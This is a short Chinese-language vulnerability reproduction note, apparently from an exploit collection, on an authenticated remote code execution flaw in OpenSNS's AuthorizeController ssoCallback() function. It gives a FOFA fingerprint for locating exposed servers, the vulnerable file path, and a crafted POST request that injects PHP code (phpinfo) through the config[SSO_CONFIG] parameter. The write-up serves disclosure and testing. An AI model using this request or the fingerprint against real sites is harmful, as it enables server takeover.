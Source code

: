 # OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

```
OpenSNS
```

## FOFA

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154117028](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181541097.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthorizeController.class.php`

![image-20220518154127216](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181541309.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![image-20220518154143157](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181541252.png)

构造请求包

```
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![image-20220518154206103](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181542195.png)